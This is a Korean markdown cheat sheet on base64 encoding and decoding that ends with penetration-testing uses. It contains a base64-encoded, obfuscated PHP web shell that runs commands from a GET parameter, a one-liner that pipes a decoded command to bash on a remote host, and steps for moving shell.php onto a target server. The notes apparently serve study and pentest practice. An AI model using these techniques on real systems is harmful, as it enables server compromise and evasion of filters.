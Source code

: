# base64 - 인코딩/디코딩

---

## 📌 패딩(`=`)이란? → **진짜 중요**

- `Base64`는 3바이트(24비트)를 6비트씩 4개로 쪼개 문자로 인코딩함.
- 원본 데이터가 3바이트 단위가 아니면 6비트를 채우기 위해 `=` 또는 `==`을 **패딩 문자**로 붙임.

| 원본 바이트 수 | 인코딩 후 길이 | 패딩 |
| -------------- | -------------- | ---- |
| 3의 배수       | 정확히 4n      | 없음 |
| 2바이트        | 3 + `=`        | 1개  |
| 1바이트        | 2 + `==`       | 2개  |

🔒 패딩은 **데이터 정렬을 위한 것**이지, **암호화나 보안 요소는 아님**
🛠️ 실전에서는 일부 도구나 웹 필터 우회를 위해 **패딩이 생략**되기도 함
✅ `base64 -d`는 패딩이 없어도 자동으로 보정하여 **디코딩 잘됨**

```bash
# 패딩 있는 경우
echo -n "A" | base64         # → QQ==
# 패딩 없는 버전
echo -n "QQ==" | tr -d '=' | base64 -d
```

---

## 주요 옵션

- `-d`, `--decode` : 디코딩 모드
- `-i`, `--ignore-garbage` : 디코딩 시 base64 문자가 아닌 것 무시
- `-w`, `--wrap=COLS` : COLS 바이트마다 줄바꿈 (기본 76, 0은 줄바꿈 없음)
- `-n` : `echo` 명령어에서 사용, 마지막 개행 문자 제거 (base64 인코딩/디코딩 시 오류 방지)

---

## 기본 명령어

### 텍스트 변환

```bash
# text → base64
echo -n "admin:password" | base64     # YWRtaW46cGFzc3dvcmQ=
# echo -n : 마지막 개행 문자 제거 (base64 인코딩/디코딩 시 오류 방지)

# base64 → text, tr -> tr.md 문서 확인
echo YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw | base64 -d
echo -n "YOUR_STRING_HERE" | tr -d '\n\r ' | base64 -d
echo -n "YWRtaW46cGFzc3dvcmQ=" | base64 -d  # admin:password
echo -n "CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA=" | tr -d '=' | base64 -d
```

---

### 파일 처리

```bash
# 파일 → base64 (줄바꿈 포함)
base64 shell.php > shell.b64

# 파일 → base64 (한 줄로)
base64 -w 0 shell.php > shell.b64

# base64 → 파일
base64 -d shell.b64 > shell.php
cat shell.b64 | base64 -d > shell.php
```

---

## 깨지는 경우 파이썬으로

### Python

```bash
# 인코딩
python3 -c "import base64; print(base64.b64encode(b'비밀번호').decode())"

# 디코딩
python3 -c "import base64; print(base64.b64decode('67Cx66Gd67KI7Zi4').decode())"

# 파일 인코딩
python3 -c "import base64, sys; print(base64.b64encode(open(sys.argv[1], 'rb').read()).decode())" shell.php
```

---

### 원라이너

```bash
# 명령어 인코딩 후 실행
echo -n "cat /etc/passwd" | base64     # Y2F0IC9ldGMvcGFzc3dk
echo Y2F0IC9ldGMvcGFzc3dk | base64 -d | bash     # 원격지에서 실행
```

---

## 침투 활용

### 파일 전송

```bash
# 공격자 → 대상 서버
base64 -w 0 shell.php > shell.txt     # 로컬에서 인코딩
# shell.txt 내용을 복사하여 타겟 서버에 붙여넣기
base64 -d > shell.php << 'EOF'        # 타겟에서 실행
[붙여넣은 내용]
EOF
```

---

### 웹쉘 우회

```bash
# 기본 디코딩 웹쉘 템플릿
<?php
$data = '디코딩할문자열';
file_put_contents('shell.php', base64_decode($data));
?>

# 파일로 저장
echo "<?php
\$data = '디코딩할문자열';
file_put_contents('shell.php', base64_decode(\$data));
?>" > decode.php

# 실행
php decode.php
```

---

### Basic 인증

```bash
# Basic 인증 헤더 생성
echo -n "admin:password" | base64     # YWRtaW46cGFzc3dvcmQ=
curl -H "Authorization: Basic YWRtaW46cGFzc3dvcmQ=" https://target.com/
```

---
